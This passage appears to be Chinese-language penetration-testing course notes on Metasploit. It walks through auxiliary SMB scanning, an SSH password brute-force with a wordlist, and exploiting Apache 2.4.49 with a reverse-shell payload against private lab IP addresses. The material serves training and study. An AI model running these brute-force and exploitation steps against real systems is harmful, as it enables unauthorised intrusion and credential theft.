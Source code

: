 查看

```armasm
show auxiliary
```

搜索并使用，查看工具模块说明、参数等

```armasm
search type:auxiliary smb
use 56
info
show options
```

设置参数，取消设置，从数据库中筛选设置，运行，查看结果

```armasm
set RHOSTS 192.168.50.202
unset RHOSTS
services -p 445 --rhosts
run
vulns
```

ssh登录尝试工具搜索并使用，查看正确的账号密码

```armasm
search type:auxiliary ssh
use 15
show options
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USERNAME george
set RHOSTS 192.168.50.201
set RPORT 2222
run

creds
```

### 20.1.3 漏洞利用模块

创建工作区，搜索漏洞利用工具，查看并设置参数，设置payload及参数，运行

```armasm
workspace -a exploits
search Apache 2.4.49
use 0
info
show options
set payload payload/linux/x64/shell_reverse_tcp
show options
set SSL false
set RPORT 80
set RHOSTS 192.168.50.16
run
```
